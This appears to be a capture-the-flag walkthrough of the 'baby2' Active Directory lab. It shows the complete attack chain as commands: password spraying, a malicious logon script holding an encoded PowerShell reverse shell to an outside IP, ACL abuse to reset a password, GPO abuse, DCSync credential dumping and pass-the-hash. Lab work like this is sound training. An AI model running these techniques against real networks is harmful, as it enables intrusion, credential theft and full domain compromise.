

Target IP : 10.10.120.238
Let’s generate the domain names into /etc/hosts file using nxc
❯ sudo nxc smb 10.10.120.238 --generate-hosts-file /etc/hostsNMAP Scan Results
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2023-08-22T17:39:15
|_Not valid after: 2024-08-21T17:39:15
|_ssl-date: 2024-06-27T14:19:20+00:00; 0s from scanner time.
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: BABY2
| NetBIOS_Domain_Name: BABY2
| NetBIOS_Computer_Name: DC
| DNS_Domain_Name: baby2.vl
| DNS_Computer_Name: dc.baby2.vl
| DNS_Tree_Name: baby2.vl
| Product_Version: 10.0.20348
|_ System_Time: 2024-06-27T14:18:40+00:00
| ssl-cert: Subject: commonName=dc.baby2.vl
| Not valid before: 2024-06-26T14:12:24
|_Not valid after: 2024-12-26T14:12:24
|_ssl-date: 2024-06-27T14:19:20+00:00; 0s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
49671/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open msrpc Microsoft Windows RPC
61367/tcp open msrpc Microsoft Windows RPC
61375/tcp open msrpc Microsoft Windows RPC
61390/tcp open msrpc Microsoft Windows RPCEnumerate SMB Shares (Unauthenticated)
❯ smbclient -L ////baby2.vlthere are 3 interesting shares
- apps
- docs
- homes
The SMB Share homes allows Guest users to read and write
so lets check homes share what’s inside it
❯ smbclient --no-pass //baby2.vl/homes
❯ smbclient --no-pass //baby2.vl/homes -c "dir" | awk '{print $1}' | grep -E '^[A-Za-z]+\.[A-Za-z]+$'We can use this list of users to create a username wordlist, and password spray each account by using the username as password:
❯ nxc smb baby2.vl -u users.txt -p users.txt --continue-on-successwe have 2 valid hits!
This gave us access to the users: Carl.Moore, library
inside SYSVOL there’s one folder called script which is having a login.vbs file which has write permission , means we can modify it
This login.vbs is a Domain Logon Script, and is normally created in Active Directory Environments to run scripts when a user logins, just as its name suggests.
We can exploit this by altering the contents of login.vbs to a VBS script that downloads and executes in memory a reverse PowerShell shell.
Malicious login.vbs file i generated & replaced it there in scripts folder in SYSVOL Share & start a nc listener in background & got a reverse shell as amelia.griffiths
Set oShell = CreateObject("Wscript.Shell")
oShell.run "powershell -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOAAuADQALgAyADAANgAiACwAMQAzADMANwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="Privilege Escalation
let’s get the bloodhound data using the Carl.Moore creds which we got earlier & we can mark amelia.griffiths as owned & go from there in BloodHound (i’ll be using rusthound-ce as its faster than normal bloodhound collector)
❯ rusthound-ce -d baby2.vl -u Carl.Moore@baby2.vl -zbut we have to keep one thing in mind that we have amelia.griffiths as reverse shell we dont have her password , so to exploit WriteDacl we cant use linux tools like impacket/BloodyAD !
We have to exploit from inside of the revshell itself , basically using ps1 files powershell way , so let’s use powerview
Import-Module .\PowerView.ps1
add-domainobjectacl -rights "all" -targetidentity "gpoadm" -principalidentity "Amelia.Griffiths"
$cred = ConvertTo-SecureString 'RajWasHere123!' -AsPlainText -Force
set-domainuserpassword gpoadm -accountpassword $crednow this is done so use nxc to check if password has been changed for gpoadm user
❯ nxc smb baby2.vl -u 'gpoadm' -p 'RajWasHere123!'
so at this stage we have pwned user gpoadm now lets go back to bloodhound & mark it as owned & see from here where we move
we notice that the GPOADM user has GenericAll over the default domain controller’s policy.
as bloodhound suggest we can use pyGPOAbuse to exploit it
First, we need to find the GPO File Path ID in the policy
We can use pygpoabuse.py to add the gpoadm user into the administrator group.
❯ python3 pygpoabuse.py 'baby2.vl/gpoadm:RajWasHere123!' -gpo-id 6AC1786C-016F-11D2-945F-00C04fB984F9 -f -dc-ip 10.10.120.238 -command 'net localgroup administrators /add gpoadm'
Bingo!! it means our gpoadm user is now part of administrator groups means we can do direct DCSync
DCSync
❯ nxc smb baby2.vl -u 'gpoadm' -p 'RajWasHere123!' --ntdsnow we can use Administrator hash to spawn a evil-winrm shell
❯ evil-winrm -i baby2.vl -u Administrator -H '61eb5125f9944214679c2d0fdca6eb82'